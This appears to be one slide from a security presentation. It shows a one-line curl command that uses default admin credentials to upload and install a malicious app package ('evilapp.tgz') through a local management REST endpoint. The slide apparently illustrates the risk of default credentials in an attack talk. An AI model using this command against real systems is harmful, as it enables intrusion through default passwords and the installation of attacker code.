

# The Easy Way
It just keeps getting better:
Deploy your app without an evil deployment server
POST the file and deploy with one command
curl -k -u admin:changeme "https://localhost:8090/services/apps/local" -d filename=1 -d name=/path/to/evilapp.tgz